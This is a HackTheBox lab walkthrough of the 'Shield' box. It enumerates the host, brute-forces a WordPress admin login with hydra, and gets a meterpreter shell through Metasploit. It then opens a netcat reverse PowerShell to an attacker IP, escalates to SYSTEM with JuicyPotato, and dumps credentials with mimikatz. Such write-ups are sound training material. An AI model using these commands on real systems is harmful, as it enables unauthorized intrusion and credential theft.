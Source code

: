 *2021-08-16*

*kimm3*
# Walkthrough: Shield
Platform: HackTheBox, Starting Point

Difficulty: Very Easy

This is the fourth box in the starting point series.

The boxes build on each other so make sure to save credentials and other intersting information that you find.

## Info gathering and enumeration
`export IP=10.10.10.29`
`sudo nmap $IP -p- -O -Pn --disable-arp-ping -v -oA nmap/init-scan`

![init-scan](assets/markdown-img-paste-20210816115112464.png)

A http and a sql service.

![http-start](assets/markdown-img-paste-20210816115142149.png)

A standard IIS page. Use ffuf to enumerate further.

`ffuf -u "http://10.10.10.29/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ`

![wordpress-ffuf](assets/markdown-img-paste-20210816115716830.png)

A wordpress site. If we browse to it belongs to a electric car manufacturer named SHIELDS UP. If there's a wordpress, there's a wp-login site. If we can get in there as an admin, we can use metasploit to land a shell/meterpreter.

![user-pass](assets/markdown-img-paste-20210816120702703.png)

I've put together a list of usernames and passwords previously encountered in the series, removing service accounts such as www-data and postgres. It's 24 combinations lets use hydra to make it go quicker. The site responses differently if the user exists or not so I've previously save a command to quickly fuzz usernames. It goes:
```
hydra -L users.txt -p test 10.10.10.29 http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:F=Invalid username."
```

![user-admin](assets/markdown-img-paste-20210816121950696.png)

The user admin is found. Let's try with our available passwords.

```
hydra -l admin -P pass.txt $IP http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:F=<title>Log In"
```

![admin-pw](assets/markdown-img-paste-20210816122159515.png)

The last one worked. Let's go to the page and log in.

![wp-login-success](assets/markdown-img-paste-2021081612241311.png)
## Fothoold
Easiest way to land a shell from here is using metasploit.

Fire up msfconsole and search for 'wp admin'.

![wp-admin-search](assets/markdown-img-paste-20210816122731895.png)

**Useful msfconsole commands**
`search <term>` - make a search
`use <nr/name>` - use that exploit
`info` - show info about current exploit, you can see the options you have to set here
`set <option> <value>` - set an option to a value, like the USERNAME to 'admin'.
`run` - run the exploit

![meterpreter](assets/markdown-img-paste-20210816123354267.png)

*If the exploit runs and fails to get a meterpreter, try to set the LHOST option to your tunnel IP, it might point to the wrong IP default.*

**Useful meterpreter commands**
```
ls
cd
pwd
sysinfo
getuid
upload
download
shell
```

![meterp-basic](assets/markdown-img-paste-20210816123717186.png)

The shell seems to hang for me every time I send a command, not sure if intended from the box creator or just a temporary bug.

I tried som different shells, with pretty much the same results. You can use it to enumerate the file system at least. For example you can see that the user folder contains a new user, sandra. Let's try to get a proper shell to continue enum and find a privesc. In the wordpress wp-content folder there's a folder called uploads, I uploaded nc.exe(`/usr/share/windows-resources/binaries/`) and executed it with meterpreter: `execute -f nc.exe -a "-e powershell 10.10.16.96 4242"` *(I changed the name of nc to myownnc.exe due many others doing the same thing with nc.exe)*

![sysinfo](assets/markdown-img-paste-20210817131013890.png)

![seimpersonateprivilege](assets/markdown-img-paste-20210817130944316.png)

From here it's easier to continue searching for exploits. The user has the "SeImpersonatePriviliege" token enabled. This could make it vulnerable to one of the potato exploits(google it).
## Privilege escalation
Ref: https://github.com/ohpe/juicy-potato

From the meterpreter, upload the JuicyPotato.exe and a bat file containing the command to start a reverse powershell with netcat(same as we did before, but this time it will be run as system account).


*I've renamed my files to not mix them with others doing the same thing. jpjp.exe is the JuicyPotato.exe*


![jpjpexe](assets/markdown-img-paste-2021081713384024.png)

![roottxt](assets/markdown-img-paste-20210817133828292.png)
## Post expliotation
Ref: https://github.com/gentilkiwi/mimikatz

We can use mimikatz and `sekurlsa::logonpasswords` to dump password hashes.

![sandra](assets/markdown-img-paste-20210817135802388.png)
